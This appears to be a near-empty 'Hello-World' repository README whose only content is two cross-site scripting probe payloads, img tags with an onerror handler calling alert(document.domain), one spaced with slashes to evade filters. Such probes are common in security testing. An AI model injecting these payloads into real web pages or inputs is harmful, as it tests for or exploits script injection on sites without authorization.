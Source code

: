 # Hello-World
<img/src='x'onerror=alert(document.domain)>
<img src=x onerror=alert(document.domain)>
